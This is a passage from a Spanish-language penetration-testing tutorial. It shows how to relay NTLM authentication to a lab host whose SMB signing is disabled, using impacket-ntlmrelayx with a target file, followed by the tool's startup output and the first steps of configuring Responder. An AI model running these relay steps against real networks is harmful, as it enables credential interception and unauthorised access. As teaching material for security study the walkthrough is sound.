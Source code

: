 Lo observamos en la siguiente seccion:

```
signing:False
```

De primeras vamos a crear un fichero llamado `targets.txt` en el que vamos a incluir la `IP` que vemos que no tiene le firmado activado del `SMB` que en este caso seria la siguiente:

> targets.txt

```
192.168.5.208
```

Y ahora ejecutaremos el siguiente comando:

```shell
impacket-ntlmrelayx -smb2support -tf targets.txt 
```

Con el `-tf` especificamos el `Target File` que es el fichero donde estan todas las `IP's` que nos interesan.

Info:

```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client SMTP loaded..
[*] Running in relay mode to hosts in targetfile
[*] Setting up SMB Server on port 445
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server on port 9389
[*] Setting up RAW Server on port 6666
[*] Multirelay enabled

[*] Servers started, waiting for connections
```

Esto lo que esta haciendo es levantarnos dichos `protocolos` y tambien `servidores` para estar en mitada de la comunicacion con ellos, haciendonos pasar nosotros por la maquina que se encuentra en mitad de la comunicacion, para realizar lo que comente anteriormente.

Como tenemos estos servidores levantados y tambien necesitamos utilizar `responder` vamos a editar el archivo de `responder` para desactivar el que nos levante los servidores que ya estan levantados en la otra herramienta, para ponernos asi en mitad de la comunicacion gracia a la herramienta.
